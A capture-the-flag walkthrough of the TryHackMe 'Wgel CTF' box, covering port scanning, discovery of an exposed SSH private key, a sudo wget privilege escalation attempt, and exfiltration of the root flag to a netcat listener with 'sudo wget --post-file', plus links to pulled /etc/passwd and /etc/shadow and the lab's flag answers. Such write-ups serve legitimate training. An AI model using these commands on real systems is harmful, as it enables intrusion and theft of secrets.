 # Write Up for Try_Hack_Me box - [Wgel CTF](https://tryhackme.com/room/wgelctf)

Add details

> Pratyush Prakhar (5#1NC#4N) - 11/14/2020


## Services Enumeration

1. Ran a normal scan with nmap. 

**Output**

```bash
$ nmap -vv -sC -sV -oN nmap/main 10.10.99.204
Nmap scan report for 10.10.99.204
Host is up, received syn-ack (0.21s latency).
Scanned at 2023-08-15 22:23:24 EDT for 35s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

2. Services found open:
   1. *Port 22* - SSH - **OpenSSH 7.2p2**
   2. *Port 80* - HTTP - **Apache httpd 2.4.18**

3. Let's try to actively enumerate the path to gain more information.

## Web Reconnaissance

1. We go and check out the website hosted at the port 80.

![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/images/port_80.png)

2. Let's look out for the low hanging fruits.
    1. Page Source - we get a important note to a potential user - `jessie`.
    2. robots.txt
    3. Inspector

![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/images/page_source.png)

3. Let's start digging into the other resources that might be shared on the server. Let's go do some directory busting using a brand new tool - `feroxbuster`.

```bash
$ feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x html,js,sh -o port_80.txt -u http://10.10.99.204
```
\
[FeroxBuster File](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/web/port_80.bash)

4. We find that there is a `server misconfiguration` in place allowing us to read a `ssh key` from the subdomain at `/sitemap/.ssh/id_rsa`. The key can be seen [here](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/web/sitemap/%2Essh/id_rsa)

![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/images/sitemap.png)
\
![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/images/ssh.png)
\

5. We can use this private key to get a initial hold on the box for jessie.

## SSH

1. SSHing into the box with jessie's RSA private key.

```bash
jessie@CorpOne:~$ whoami
jessie
jessie@CorpOne:~$ cd Documents/
jessie@CorpOne:~/Documents$ ls -la
total 12
drwxr-xr-x  2 jessie jessie 4096 oct 26  2019 .
drwxr-xr-x 17 jessie jessie 4096 oct 26  2019 ..
-rw-rw-r--  1 jessie jessie   33 oct 26  2019 user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt 
************************************
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

2. We find the user's flag in the `/Document` directory. Enumeration is good. 

3. Let's explore for a path of Privilege Escalation. We find through `sudo -l` that the `wget` binary can be run as root without the passwd.

4. Looking for our friend [GTFObin](https://gtfobins.github.io/gtfobins/wget/). We will use the sudo escalation path first. Din't pan out.

```bash
jessie@CorpOne:~/Documents$ TF=$(mktemp)
jessie@CorpOne:~/Documents$ chmod +x $TF
jessie@CorpOne:~/Documents$ which bash
/bin/bash
jessie@CorpOne:~/Documents$ echo -e '#!/bin/sh\n/bin/bash 1>&0' >$TF
jessie@CorpOne:~/Documents$ echo $TF
/tmp/tmp.RvLb5xaiUo
jessie@CorpOne:~/Documents$ sudo /usr/bin/wget --use-askpass=$TF 0
/usr/bin/wget: unrecognized option '--use-askpass=/tmp/tmp.RvLb5xaiUo'
Usage: wget [OPTION]... [URL]...

Try `wget --help' for more options.
```

## PrivEsc

1. We find that the `file upload` functionality can allow us to send files over to our system. 
    1. Open up a netcat lister on our system to receive the file.
    2. Now we can send over the root files (flag, id_rsa keys) using the sudo permissions on the wget.

**Output**
```bash
jessie@CorpOne:~/Documents$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.13.5.5:1337/
--2023-08-16 06:00:16--  http://10.13.5.5:1337/
Connecting to 10.13.5.5:1337... connected.
HTTP request sent, awaiting response... 
No data received.
```

```bash
┌──(kali㉿kali)-[~/…/Try_Hack_Me/Wgel CTF/ssh/root]
└─$ nc -lnvvp 1337 > root.txt
listening on [any] 1337 ...
connect to [10.13.5.5] from (UNKNOWN) [10.10.99.204] 47542
^C sent 0, rcvd 244
                                                                                 
┌──(kali㉿kali)-[~/…/Try_Hack_Me/Wgel CTF/ssh/root]
└─$ ls
root.txt
                                                                                 
┌──(kali㉿kali)-[~/…/Try_Hack_Me/Wgel CTF/ssh/root]
└─$ cat root.txt          
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.13.5.5:1337
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

*********************************************
```

2. Use this to get additional files off the system.
    1. */etc/passwd* - [here](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/ssh/etc/passwd)
    2. */etc/shadow* - [here](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/ssh/etc/shadow)
    3. *linpeas* - [here](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Wgel%20CTF/ssh/linpeas.out)


## Answers to resolve the box

1. User Flag - **057c67131c3d5e42dd5cd3075b198ff6**

2. Root flag - **b1b968b37519ad1daa6408188649263d**



**Stay Tuned On**\
[Github](https://github.com/pratty010/Boxes)\
[LinkedIn](https://www.linkedin.com/in/pratyush-prakhar/)